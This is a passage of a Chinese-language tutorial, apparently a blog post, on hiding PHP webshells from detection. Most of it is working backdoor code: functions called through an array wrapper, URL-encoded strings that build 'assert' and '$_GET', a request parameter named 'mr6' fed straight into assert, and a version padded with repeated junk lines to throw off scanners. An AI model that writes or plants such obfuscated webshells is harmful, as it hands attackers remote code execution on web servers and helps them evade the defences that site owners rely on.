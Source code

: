 所以我们只需要将`$a($b)`包裹进数组里即可绕过

所以按照这个套路我们可以怎么改呢

```
<?php
function demo($name,$value){
    [$name($value)];
}
demo(urldecode('%61%73%73%65%72%74'),$_POST['mr6']);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900431269-62a78b32-4d45-449b-979a-bb7def31be70.png)

### 垃圾代码填充

举个例子

```
<?php
$a=urldecode('%61%73%73%65%72%74');
$b=urldecode("%5f%47%45%54");
$c=${$b}['mr6'];
$a($c);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900431386-3e9ac496-cb40-4f44-bd42-b7ef6d8d32e1.png)

填充垃圾代码

```
<?php
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$index = 'index.html';
$a=urldecode('%61%73%73%65%72%74');
$b=urldecode("%5f%47%45%54");
$c=${$b}['mr6'];
$a($c);
?>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900431506-d8759c29-7017-4ef7-9a16-792b15311e08.png)

玄学
